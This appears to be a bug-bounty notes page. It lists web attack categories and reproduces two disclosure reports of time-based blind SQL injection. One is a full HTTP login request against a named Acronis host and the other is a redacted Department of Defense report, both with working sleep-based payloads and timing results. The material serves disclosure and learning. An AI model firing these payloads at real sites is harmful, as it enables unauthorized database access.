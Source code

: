 # road

* SSTI (Username and tools)
* sqli 
* File Upload Vulnerabilities
* SSRF Scan
* web cache poisoning
* Os Command Injection
* Path Traversal Injection
* LFI
* 0Auth Injection


# Sqli Reports 
## 1

I have discovered a SQL injection in https://demor.adr.acronis.com/ using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:
```http
POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```
Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).
Using various values for the sleep function you get various time responses.
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
```

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

____________________

## 2 
newcodeslayer137 submitted a report to U.S. Dept Of Defense.
June 10, 2023, 9:32am UTC

Description:
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.
POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
Impact
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
Best regards,
CodeSlayer137
System Host(s)
███
Affected Product(s) and Version(s)
CVE Numbers
Steps to Reproduce
https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Suggested Mitigation/Remediation Actions
